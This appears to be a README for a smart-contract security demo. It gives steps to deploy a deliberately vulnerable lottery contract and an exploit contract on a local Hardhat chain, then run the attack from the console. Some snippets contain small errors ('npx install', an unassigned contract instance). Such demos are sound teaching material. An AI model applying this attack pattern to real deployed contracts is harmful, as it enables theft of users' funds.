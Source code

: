 # Vottun Vulnerable Contract

Install dependencies

```shell
npx install
```

# Compile Contracts

```shell
npx hardhat compile
```

Start Hardhat Node: In a separate terminal, start a local blockchain:

```shell
npx hardhat node
```

Deploy VulnerableLottery: In another terminal, deploy the vulnerable contract:

```shell
npx hardhat run scripts/deployVulnerableLottery.js --network localhost
```

Copy the deployed contract's address and replace "ADDRESS_OF_VULNERABLE_LOTTERY" in the exploit deployment script.
Deploy ExploitLottery: After replacing the vulnerable contract’s address in deployExploitLottery.js, deploy the exploit contract:

```shell
npx hardhat run scripts/deployExploitLottery.js --network localhost
```

# Simulate the Attack
Once the contracts are deployed, use the Hardhat console to simulate the attack.
Open Hardhat Console:

```shell
npx hardhat console --network localhost
```

Set up contract instances: Inside the console, create instances of the deployed contracts:

```javascript
ethers.getContractAt("contracts/VulnerableLottery.sol:VulnerableLottery", "VULNERABLE_CONTRACT_ADDRESS");
const exploit = await ethers.getContractAt("ExploitLottery", "EXPLOIT_CONTRACT_ADDRESS");

const [owner, player1, player2] = await ethers.getSigners();
```

*Simulate lottery entries*: Some players enter the lottery:

```javascript
await vulnerable.connect(player1).enter({ value: ethers.parseUnits("1", "ether") });
await vulnerable.connect(player2).enter({ value: ethers.parseUnits("1", "ether") });

// Check lottery contract balance
const balance = await ethers.provider.getBalance(await vulnerable.getAddress());
console.log("Lottery balance:", ethers.formatEther(balance));  // Should be 2 Ether
```

*Exploit the vulnerability*:
Call the exploit contract to trigger the lottery’s winner selection early:

```javascript
await exploit.connect(owner).attack();

const recentWinner = await vulnerable.recentWinner();
console.log("Recent winner:", recentWinner);
```



